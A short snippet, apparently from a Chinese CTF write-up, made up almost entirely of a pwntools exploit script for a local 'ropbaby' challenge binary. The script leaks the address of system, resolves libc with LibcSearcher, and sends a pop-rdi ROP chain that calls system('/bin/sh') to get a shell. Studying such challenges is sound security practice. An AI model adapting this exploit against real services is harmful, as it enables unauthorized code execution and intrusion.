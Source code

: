 大佬的exp：

```python
from pwn import *
from LibcSearcher import *
ropbaby = ELF('./pwn')
sh = process('./pwn')
context.word_size = 64
def getfuncaddress(func):
    sh.recvuntil(': ')
    sh.sendline('2')
    sh.recvuntil('symbol: ')
    sh.sendline(func)
    sh.recvuntil(': ')
    addr = sh.recvuntil('\n', drop=True)
    return int(addr, 16)
def addropbuff(payload):
    sh.recvuntil(': ')
    sh.sendline('3')
    sh.recvuntil('): ')
    length = len(payload)
    sh.sendline(str(length))
    sh.sendline(payload)
rdi_ret_offset = 0x0000000000021102
system_addr = getfuncaddress('system')
libc = LibcSearcher('system', system_addr)
libc_base = system_addr - libc.dump('system')
binsh_addr = libc.dump('str_bin_sh') + libc_base
rdi_ret = rdi_ret_offset + libc_base
print hex(system_addr), hex(binsh_addr), hex(rdi_ret)
payload = flat(['b' * 8, rdi_ret, binsh_addr, system_addr])
addropbuff(payload)
sh.interactive()
```